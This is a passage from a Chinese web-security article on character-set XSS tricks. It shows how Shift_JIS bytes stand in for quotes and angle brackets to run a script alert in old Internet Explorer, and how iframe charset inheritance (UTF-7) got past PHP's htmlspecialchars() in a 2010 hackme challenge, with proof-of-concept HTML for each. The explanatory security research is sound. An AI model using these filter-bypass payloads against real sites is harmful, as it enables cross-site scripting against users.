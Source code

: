 也就是说在这个字符集当中:

```
双引号 0x22 等价于 0xA2
左尖括号 0x3C 等价于 0xBC
右尖括号 0x3E则等价于0xBE

```

比如,你把下面的这一段通过保存成 html,编码选 shift_jis(如果是记事本的可以用 ANSI)

```
<html>
<head>
<meta http-equiv="content-type" content="text/html;charset=us-ascii"> </head>
<body>
シ script セ alert(document.charset)シ/script セ
</body>
</html>

```

注释:`シ和セ在 shift_JIS 当中分别是 0xBC 和 0xBE`

然后,再用 Internet Explorer 打开它,那么最终你会看到小窗口弹起来了。

![NewImage](http://drops.javaweb.org/uploads/images/7f0209ec515f581e90635c656121dce3d09b526c.jpg)

0x03 利用字符集来绕过 htmlspecialchars()函数
----------------------------------

* * *

在看完前面的两个字符集后,我们会发现这两个字符集的一个共同点,就是 都没有出现`”<”,”>”`或双引号。这不难让我们联想到 PHP 中 htmlspecialchars()的 绕过。虽然接下来会提到的 iframe 跨域字符集继承漏洞已经不能再利用了,但是在下文中我会提出可以复现这个漏洞的具体环境。

这是在 kotowicz 的博客当中 2010 年提到的一个 XSS hackme challenge 的解决方案。challenge 的主要目的就是绕过 htmlspecialchars()这个函数来实现 XSS。 而且重要的是这个页面并没有通过 response header 或 meta 来设置字符集。

笔者一开始提到可以做出这样的一个 POC:

```
<html>
<head>
<meta http-equiv="content-type" content="text/html;charset=utf-7">
</head>
<body>
<iframe width=500 height=600 src="http://kotowicz.net/shoutbox/shoutbox.php"></iframe>
</body>
</html>

```

大概意思就是在 IE6 那个年代,字符集继承问题横行,我们只需要一个 iframe 就能完成这个挑战(我没有在 playonlinux 里的 IE6 里复现成功,所以可能你需要足够古老的环境来重现这个问题)。笔者提到对于 IE8 来说,我们只能继承同域的字符集(iframe)。但是那个时候有一个小的 BUG 可以用来欺骗浏览器。

大致思路如下:
